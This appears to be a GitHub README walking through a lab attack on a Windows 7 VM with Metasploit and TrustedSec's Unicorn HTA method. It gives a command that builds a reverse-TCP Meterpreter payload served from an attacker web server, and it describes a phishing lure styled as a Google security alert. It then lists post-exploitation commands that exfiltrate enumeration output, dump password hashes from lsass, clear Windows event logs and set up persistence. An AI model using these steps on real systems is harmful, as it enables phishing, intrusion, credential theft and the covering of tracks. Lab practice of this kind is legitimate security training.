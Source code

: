 # Unicorn Demo 
I have built this as a way to demo attacking a Windows 7 machine using metasploit and Unicorn's HTA attack.
Todd Murray pdxgeek57@gmail.com

## Environment Details

Kali from https://www.kali.org/downloads/  
Unicorn from https://github.com/trustedsec/unicorn
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso from https://the-eye.eu/public/MSDN/Windows%207/
I used VMware 11.5 on MacOS Catalina 10.15.2 but you can use other HyperVisors.
## I would NOT reccomend AWS/Azure as they may interpret these activities as malicous and kill your environment/account
    Note that VMware versions lower than 11 have display issues with VM's on Catalina

## Kali Setup

Download and Install the latest Kali Linux 64-Bit Image
Run 'apt update' and then 'apt upgrade'. This will update Kali to the latest including metasploit which we will be using.
Enable Postgresql and Apache2 to start at boot 'systemctl enable postgresql' and 'systemctl enable apache2'
Start Postgresql and Apache2 "systemctl start postgresql' and 'systemctl start apache2'
Start Metasploit "msfconsole' to initialize the db then 'exit' out

## Windows 7 Setup
 
Install Windows in a trial, no key is needed unless you have a valid license
During install I created an administrator account named "admin". IF you use somethign else you will need to make changes later on.
If you are testing against an AV solution make sure its in "Detect Only" mode.
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update
    https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can google this if your not sure how.


## Setup Kali (All done in a Terminal window, if you are not root you may need to use sudo for some commands)

Switch to /opt 'cd /opt'
Download Unicorn 'git clone https://github.com/trustedsec/unicorn.git'
Run 'ifconfig' and note your IP
Switch to /opt/unicorn 'cd /opt/unicorn'
Review the README.md
Run unicorn.py using your kali IP and hta method for revese_tcp payload 'python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta'
This generates and hta_attack folder that you now copy to /var/www/html 'cp hta_attack /var/www/html'
Switch to /var/www/html/hta_attack 'cd /var/www/html/hta_attack'
Use your favorite editor to modify unicorn.rc 'vi unicorn.rc'
Make sure AutoVerifySession, AutoSystemInfo, and AutoLoadStdapi are all set to true then save your changes

This generates the payload and metasploit configuration into our apache instance.
In my case the URL is http://172.16.105.131/hta_attack/
What i did next was generated a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the URL above". I also went into my Google account to the Security settings page and saved this page. I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted. It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.


## Next is to setup what we will do once we click the email link and open Launncher.hta

Download this repo that contains my demo.rc script
Go back to /opt 'cd /opt/' and clone this repo 'git clone https://github.com/wond696/unicorn-demo.git'
Switch to /opt/unicorn-demo and review demo.rc 'cd /opt/unicorn-demo' and 'cat demo.rc'
My script is based on being logged in as a user named "admin", you may have to make modifications if you use a different account. Also, ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and causes a keyboard buffering problem so I'm only do base collection in the script and uploading files.

## Download JAWS 'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'
Review the README.md 'cat /opt/JAWS/README.md'

Start our metasploit listener 'msfconsole -r /var/www/html/hta_attack/unicorn.rc'
Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ and run/open the file when prompted
This will generate a reverse tcp onto port 4444, you should see the session start.
Confirm the session 'sessions -i'
Connect to the session number 'sessions -i 1'
Run demo.rc at the meterpreter prompt 'run /opt/unicorn-demo/demo.rc'
Run the following commands (You may have to hit enter after the powershell commands run)
'shell'
'powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted' Enables powershell script execution.
'powershell ./jaws-enum.ps1 exfil.txt' On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.
'exit'
'download exfil.txt'
'rm jaws-enum.ps1'
'rm exfil.txt'
'run post/windows/manage/migrate' This should migrate you to a new notepad.exe process.
'ps' Review and find the pid for lsass.exe
'migrate 592' Use the pid for lsass.exe If this works you are now under a SYSTEM process.
'hashdump' This will give you hashes that you might be able to convert to plaintext in jacktheripper or https://crackstation.net/
'clearev' Clears Windows Logs


If you have followed this precisly and made changes to IP and username where needed you should have gather a lot of system information, have a exfil.txt file in your current directory, Launcher.hta should now be persitent by being in the users Start Menu > Startup. Reboot your Windows 7 VM to test, it should reconnect after you login.
